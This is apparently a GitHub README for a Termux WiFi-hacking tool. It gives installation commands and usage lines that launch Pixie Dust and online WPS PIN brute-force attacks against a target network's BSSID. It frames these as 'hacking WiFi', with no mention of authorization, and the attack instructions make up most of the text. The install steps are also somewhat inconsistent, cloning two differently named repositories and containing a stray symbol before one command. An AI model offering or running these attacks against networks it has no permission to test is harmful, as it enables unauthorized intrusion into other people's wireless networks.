 ## ahsanwifihack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ pkg update && pkg upgrade

$ pkg install git python

$ git clone https://github.com/MDAhsanullah/ahsanwifihackmain

$ cd ahsanwifihackmain

$ python Installer.py

$ apt update && apt upgrade

$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/MDAhsanullah/ahsanwifihack

$ cd ahsanwifihack

$ ls
& sudo python ahsanwifihack.py -i wlan0 -K
```

#### Example : `sudo python ahsanwifihack/ahsanwifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
